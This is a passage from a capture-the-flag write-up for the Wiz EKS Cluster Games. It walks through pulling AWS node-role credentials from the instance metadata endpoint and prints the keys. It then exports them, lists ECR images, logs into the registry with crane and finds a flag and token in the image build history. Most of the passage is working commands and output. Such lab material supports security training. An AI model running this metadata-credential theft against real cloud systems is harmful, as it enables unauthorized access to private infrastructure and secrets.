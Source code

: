 ```
reservation-id
security-groups
services/
```

Under `iam` I was able to find AWS credentials.

```
# curl http://169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole

{"AccessKeyId":"ASIA2AVYNEVM7EB4BDUN","Expiration":"2024-01-05 11:08:43+00:00","SecretAccessKey":"5mCDntpA21aSiOSUUjQ7Am/7uyaYxJF6Eslp5c+k","SessionToken":"LONG_SESSION_TOKEN"}
```

I set the three environment variables `AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` and `AWS_SESSION_TOKEN` to the given credentials on the web shell.

```
# export AWS_ACCESS_KEY_ID=ASIA2AVYNEVM7EB4BDUN
# export AWS_SECRET_ACCESS_KEY=5mCDntpA21aSiOSUUjQ7Am/7uyaYxJF6Eslp5c+k
# export AWS_SESSION_TOKEN=LONG_SESSION_TOKEN
```

With this I now was able to access the container registry to look at the images.

```
# aws ecr list-images --repository-name central_repo-aaf4a7c

{
    "imageIds": [
        {
            "imageDigest": "sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01",
            "imageTag": "374f28d8-container"
        }
    ]
}
```

To be able look at the image using crane we have to get a login password. This can be done using `aws ecr get-login-password`, the output thereof being passed directly to the crane login command.

```
# aws ecr get-login-password | crane auth login -u AWS --password-stdin 688655246681.dkr.ecr.us-west-1.amazonaws.com

2024/01/05 10:29:03 logged in via /home/user/.docker/config.json
```

Now we can look at the image used again and see the flag in the image layers.
```
# crane config 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01

{"architecture":"amd64","config":{"Env":["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"],"Cmd":["/bin/sleep","3133337"],"ArgsEscaped":true,"OnBuild":null},"created":"2023-11-01T13:32:07.782534085Z","history":[{"created":"2023-07-18T23:19:33.538571854Z","created_by":"/bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in / "},{"created":"2023-07-18T23:19:33.655005962Z","created_by":"/bin/sh -c #(nop)  CMD [\"sh\"]","empty_layer":true},{"created":"2023-11-01T13:32:07.782534085Z","created_by":"RUN sh -c #ARTIFACTORY_USERNAME=challenge@eksclustergames.com ARTIFACTORY_TOKEN=wiz_eks_challenge{the_history_of_container_images_could_reveal_the_secrets_to_the_future} ARTIFACTORY_REPO=base_repo /bin/sh -c pip install setuptools --index-url intrepo.eksclustergames.com # buildkit # buildkit","comment":"buildkit.dockerfile.v0"},{"created":"2023-11-01T13:32:07.782534085Z","created_by":"CMD [\"/bin/sleep\" \"3133337\"]","comment":"buildkit.dockerfile.v0","empty_layer":true}],"os":"linux","rootfs":{"type":"layers","diff_ids":["sha256:3d24ee258efc3bfe4066a1a9fb83febf6dc0b1548dfe896161533668281c9f4f","sha256:9057b2e37673dc3d5c78e0c3c5c39d5d0a4cf5b47663a4f50f5c6d56d8fd6ad5"]}}
```

[link]: https://www.wiz.io/blog/announcing-the-eks-cluster-games
[finished]: https://eksclustergames.com/finisher/MuQDdDfl